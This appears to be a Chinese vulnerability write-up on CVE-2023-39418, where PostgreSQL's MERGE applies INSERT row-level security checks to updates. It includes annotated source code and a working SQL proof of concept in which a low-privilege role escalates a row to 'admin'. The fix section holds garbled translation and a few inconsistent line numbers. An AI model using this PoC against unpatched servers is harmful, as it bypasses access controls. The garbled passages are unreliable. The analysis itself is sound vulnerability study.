


# CVE-2023-39418 CWE-1220 PostgreSQL 访问控制绕过

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **行级安全（RLS）：**PostgreSQL 的行级安全（Row-Level Security, RLS）允许在表级别定义精细的访问策略，通过 CREATE POLICY 为不同命令类型（SELECT、INSERT、UPDATE、DELETE）指定 USING（控制可见性）和 WITH CHECK（控制可插入/可更新性）表达式。当表启用 RLS 且存在对应策略时，所有对行的访问或变更都必须满足这些策略；否则操作将被拒绝。
- **MERGE 命令：**PostgreSQL 15 实现了标准 SQL:2003 中的 `MERGE` 语句，可基于匹配条件在单条语句中对目标表执行 `INSERT`、`UPDATE` 或 `DELETE` 操作，简化了传统上需多条语句完成的逻辑。`MERGE` 命令（也称为 `UPSERT`）用于将数据从一个表（源表）合并到另一个表（目标表），根据匹配条件更新现有行或插入新行。这个命令在处理需要同时进行插入和更新的场景时非常有用。`MERGE` 是一种原子操作，可以在一次操作中完成插入和更新，避免了多次查询的需求。
- **CWE-1220（Insufficient Granularity of Access Control，访问控制粒度不足）：** 系统在设计或实现访问控制时，权限划分过于粗放，没有根据对象、操作或上下文进行细粒度区分，从而导致用户或进程在获得某项权限时，能够顺带访问或操作本不该触及的资源或功能。这种问题常常造成**越权访问**，因为开发者将多个敏感操作绑定在同一个权限点上，没有做到精细的最小权限控制。

## 漏洞原理

MERGE 语句在执行 UPDATE 分支时，规划器错误地使用了 INSERT 的策略检查：在 `get_row_security_policies` 中 UPDATE、DELETE、INSERT 策略共用同一组变量，最后被 INSERT 策略覆盖，导致本应应用 UPDATE 的 WITH CHECK 子句去验证“更新后的新行”是否合法，却实际拿了 INSERT 的 WITH CHECK 来判断；当策略配置为“INSERT 放宽、UPDATE 收紧”时，低权限用户即可借助 MERGE UPDATE 绕过 RLS 限制，把行更新成本不允许的状态，从而实现访问控制绕过。

## 漏洞定位

分析 PostgreSQL 15.0 源码：

在 src/backend/rewrite/rowsecurity.c 文件，第 **108** 行`get_row_security_policies`函数用于

其中第 **404** 行的判断语句用于为 `MERGE` 的各子动作（`UPDATE/DELETE/INSERT`）分别准备 RLS 检查（`USING/WITH CHECK`）。

在第 **406** 行定义了一组策略变量，后续每次获取 **UPDATE/DELETE/INSERT** 的策略都会**覆盖**这两指针，**没有分开保存**。在本分支的最后一步要“强制应用 **UPDATE 的 WITH CHECK**”时，导致传入的却是**最后一次（INSERT）的策略集**。

在第 **462** 行对`UPDATE`策略的`WITH CHECK`子句进行强制，但传入的`merge_*`列表已经被第 **462** 行的`CMD_INSERT`调用覆盖为` INSERT `的策略集，`WCO_RLS_UPDATE_CHECK`（语义=更新后新行必须满足`UPDATE`的`WITH CHECK`），实际却拿着`INSERT`的`WITH CHECK`去校验“更新后的新行”，这会在`INSERT`放宽、`UPDATE`收紧的策略配置下导致绕过。

```c
// rowsecurity.c 文件，第 108 行
void
get_row_security_policies(Query *root, RangeTblEntry *rte, int rt_index, List **securityQuals, List **withCheckOptions, bool *hasRowSecurity, bool *hasSubLinks)
{
    // ... 
    // 404 行
    if (commandType == CMD_MERGE)
        {
        // ***** 406 行 ***** 仅用一组变量承载不同动作(UPDATE/DELETE/INSERT)的策略列表 ******* ⚠️漏洞点 ******
            List	   *merge_permissive_policies;
            List	   *merge_restrictive_policies;

            // 先获取 UPDATE 的策略：用于“旧行(被更新前)是否允许被 UPDATE”的 USING 检查
            get_policies_for_relation(rel, CMD_UPDATE, user_id,
                                      &merge_permissive_policies,
                                      &merge_restrictive_policies);

            // 对既有目标行应用 UPDATE 的 USING 检查（旧行可更新性）
            add_with_check_options(rel, rt_index,
                           WCO_RLS_MERGE_UPDATE_CHECK,
                           merge_permissive_policies,   // 此时仍是 UPDATE 的策略集
                           merge_restrictive_policies,  // （旧行检查：USING）
                           withCheckOptions,
                           hasSubLinks,
                           true);                       // true 表示“旧行”路径

            // 再获取 DELETE 策略：用于 “旧行可删除性（USING）” 的检查
       		//复用了 merge_* 这两个变量，内容被覆盖成 DELETE 的策略集
            get_policies_for_relation(rel, CMD_DELETE, user_id,
                                      &merge_permissive_policies,
                                      &merge_restrictive_policies);

            add_with_check_options(rel, rt_index,
                                   WCO_RLS_MERGE_DELETE_CHECK,
                                   merge_permissive_policies,		// 现在已是 DELETE 的策略集
                                   merge_restrictive_policies,
                                   withCheckOptions,
                                   hasSubLinks,
                                   true);

            // 449 行，获取 INSERT 策略，再次复用变量：merge_* 现在被覆盖成 INSERT 的策略集
            get_policies_for_relation(rel, CMD_INSERT, user_id,
                                      &merge_permissive_policies,
                                      &merge_restrictive_policies);

            add_with_check_options(rel, rt_index,
                                   WCO_RLS_INSERT_CHECK,
                                   merge_permissive_policies,		// 此刻是 INSERT 的策略集
                                   merge_restrictive_policies,
                                   withCheckOptions,
                                   hasSubLinks,
                                   false);

            // 462 行，对 UPDATE 策略的 WITH CHECK 子句进行强制
            add_with_check_options(rel, rt_index,
                                   WCO_RLS_UPDATE_CHECK,	// 更新后新行需满足 UPDATE 的 WITH CHECK
                                   merge_permissive_policies,	// 实际是 INSERT 的策略集 *** ⚠️漏洞点 *****
                                   merge_restrictive_policies,
                                   withCheckOptions,
                                   hasSubLinks,
                                   false);
        }
    // ...
}
```

## 漏洞修复


升级到 PostgreSQL  15.4 或后来。
在src/后端/重写/rowsecurity.c文件中,收集UPDATE / DELET / INSERT政策用于MERGE**单独**,**与CHECK**使用新行检查(再也不向INSERT借款)。

```c
// Maintain strategy sets for different actions separately to avoid overriding
List	   *merge_update_permissive_policies;
List	   *merge_update_restrictive_policies;
List	   *merge_delete_permissive_policies;
List	   *merge_delete_restrictive_policies;
List	   *merge_insert_permissive_policies;
List	   *merge_insert_restrictive_policies;

// UPDATE: Check the new line WITH WITH (whether it can be updated to this state), and finally correctly use the UPDATE policy set
add_with_check_options(rel, rt_index,
                       WCO_RLS_UPDATE_CHECK,
                       merge_update_permissive_policies,
                       merge_update_restrictive_policies,
                       withCheckOptions,
                       hasSubLinks,
                       false);
```

## 影响范围


** 受影响的版本:** PostgreSQL：

-  15.0 改为 15.3

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 15.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:4.3 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N

CNA:Red Hat, Inc.   Base Score:3.1 LOW    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:15.0:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件。由于访问控制的存在，普通用户直接使用 UPDATE 命令更新字段为 admin 会报错，而使用 MERGE 命令后可以看到成功更新了字段为 admin。

```bash
docker exec -it postgres-15.0 psql -U postgres -d test -f CVE-2023-39418-PoC.sql
```



## PoC分析

```sql
DROP TABLE IF EXISTS users;
CREATE TABLE users (
  id serial PRIMARY KEY,
  username text UNIQUE,
  role text,
  active boolean
);

ALTER TABLE users ENABLE ROW LEVEL SECURITY;

-- 1) INSERT：放宽，只要求 active=true；不限制 role（允许插入 admin）
CREATE POLICY user_insert_policy
  ON users
  FOR INSERT
  WITH CHECK (active = true);

-- 2) UPDATE：
--    - USING：允许任意旧行进入更新（便于观察行为）
--    - WITH CHECK：关键！禁止“更新后的新行”为 admin
CREATE POLICY user_update_policy
  ON users
  FOR UPDATE
  USING (true)
  WITH CHECK (role <> 'admin');

-- 3) SELECT：普通用户看不到 admin
CREATE POLICY user_select_policy
  ON users
  FOR SELECT
  USING (role <> 'admin');

-- 初始一条非 admin 且 active=true 的行，保证 MERGE 命中 WHEN MATCHED → UPDATE
INSERT INTO users(username,role,active) VALUES ('sneaky','user',true);

-- 准备一个低权限角色
CREATE ROLE rls_user LOGIN PASSWORD 'pwd';
GRANT SELECT, INSERT, UPDATE ON users TO rls_user;
-- 切换身份
SET ROLE rls_user;

-- 作为低权限角色试 UPDATE
UPDATE users 
SET role = 'admin', active = true 
WHERE username = 'sneaky';

-- 尝试把 sneaky 提升为 admin（更新后的新行 role='admin'）
MERGE INTO users u
USING (VALUES ('sneaky','admin',true)) AS vals(username, role, active)
  ON u.username = vals.username
WHEN MATCHED THEN
  UPDATE SET role = vals.role, active = vals.active
WHEN NOT MATCHED THEN
  INSERT (username, role, active)
  VALUES (vals.username, vals.role, vals.active);

-- 切换回 postgres 用户查看是否修改成功
RESET ROLE;
SELECT * FROM users;
```

创建的 RLS 会禁止普通用户更新 role 字段为 admin。

`MERGE` 的作用就是 根据匹配条件决定是更新还是插入，其会构造一张临时虚拟表 vals，之后定义匹配条件：目标表 `users` 的 `username` 和源表 `vals.username` 是否相等。`WHEN MATCHED THEN UPDATE ...`如果目标表里已经存在 `username='sneaky'` 的行，就执行更新，把 `role` 改成 `admin`，`active` 改成 `true`。如果没有就插入进去。

`MERGE UPDATE` 错误地用了 **INSERT 的检查条件**（只检查 `active=true`），没有套用 UPDATE 的限制。由于 `active=true`，于是错误地允许更新为 `admin`。结果是低权限用户利用 `MERGE` 绕过了 RLS 的 UPDATE 限制。

## 参考链接


[NVD - CVE-2023-39418](https://nvd.nist.gov/vuln/detail/CVE-2023-39418)

[Fix RLS policy usage in MERGE. · postgres/postgres@c2e08b0](https://github.com/postgres/postgres/commit/c2e08b04c9e71ac6aabdc7d9b3f8e785e164d770#diff-fd57ecde9f67cd174c33dda1de40859ad9ebdc520c1af7a987e867e785661fee)

[CVE-2023-39418 - PostgreSQL MERGE Command Security Flaw – How Attackers Can Bypass Row Security](https://www.cve.news/cve-2023-39418/)

